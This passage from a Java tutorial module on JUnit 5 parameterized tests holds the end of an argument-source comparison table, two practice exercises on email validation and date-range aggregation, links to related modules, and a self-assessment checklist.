| Complex domain models, nested objects, or dynamic streams | `@MethodSource` | Full Java power; supports arbitrary objects and lazy streams. |
| Reusable parameter dataset across multiple test classes | `@ArgumentsSource` | Extends `ArgumentsProvider` into a reusable, shared class. |

---

## 14. Practical Exercises and Hands-On Challenges

### Exercise 1: Fuzz Testing an Email Parser
Using `@ValueSource` and `@NullAndEmptySource`, construct a comprehensive parameter matrix containing:
- Valid RFC-5322 emails (`user@domain.com`, `user.name+tag@sub.domain.co.uk`).
- Invalid inputs (missing `@`, missing domain, spaces, unescaped quotes).
Assert that valid emails pass and invalid inputs throw `InvalidEmailException`.

### Exercise 2: Date Range Aggregator
Create a `DateRangeAggregator` that bundles 3 CSV columns (`startDate`, `endDate`, `timezone`) into a domain `ZonedDateInterval` record. Write a `@ParameterizedTest` verifying that daylight saving time adjustments calculate accurate elapsed durations.

---

## 15. Cross-Phase Connections and Unified Mental Graph



- **Upstream Connection (Phase 06, P11-C003, P11-C004):** Phase 06 streams power lazy `@MethodSource` evaluation; P11-C003 guarantees fresh `@BeforeEach`/`@AfterEach` per invocation; P11-C004 provides fluent assertions for inspecting output.
- **Immediate Downstream Connection (P11-C006):** P11-C006 leverages parameterized datasets to systematically stress boundary conditions and exception paths.
- **Framework Connection (Phase 18):** Parameterized tests are essential for validating Spring Boot `@Valid` request bodies against adversarial inputs.

---

## 16. Verification and Self-Assessment Checklist

Before marking this module complete, verify your comprehension against each criterion:
- [x] Can I explain why `@ParameterizedTest` is superior to a `for` loop inside a `@Test` method?
- [x] Do I understand why `@MethodSource` methods must be `static` under `Lifecycle.PER_METHOD`?
- [x] Can I combine `@NullSource`, `@EmptySource`, and `@ValueSource` into a unified boundary suite?
- [x] Do I understand how `@CsvSource` performs type coercion and how to configure custom delimiters and null values?
- [x] Can I implement a custom `ArgumentsAggregator` to bundle multi-column CSV data into a Java record?
- [x] Do I understand the performance and memory difference between eager lists and lazy `Stream<Arguments>`?
- [x] Have I compiled and executed `ParameterizedTestsDemo` on OpenJDK 21 LTS with assertions enabled (`-ea`) and observed all 5 test suites pass?
